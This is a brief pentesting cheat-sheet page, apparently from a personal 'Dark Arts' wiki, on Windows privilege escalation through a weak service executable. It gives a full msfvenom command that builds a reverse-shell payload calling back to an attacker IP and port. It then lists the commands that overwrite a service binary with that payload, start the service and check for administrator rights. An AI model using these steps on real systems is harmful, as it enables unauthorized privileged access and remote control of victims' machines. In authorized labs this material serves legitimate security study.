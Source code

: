 -- -
Attach an executable to a service.
[[Dark Arts/Privesc/Windows/Enumeration/Service Executable Files|Enum]]
#### Payload
First make a malicious executable.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9001 -f exe -o x.exe
```
Then [[Dark Arts/File Transfer/Windows|file transfer]] it to target.
#### Exploit
On target box
```powershell
# overwrite original executable file found in the enum linked above, below is just an example file
copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

# then just start the service in question, again this is identified in the enum steps linked above and the following is just an example
sc start filepermsvc

# You should get a reverse shell, or whatever behavior you put into your payload. if it was adding "user" to "administrators" group, check it worked:
net localgroup administrators

# then log in as "user"
```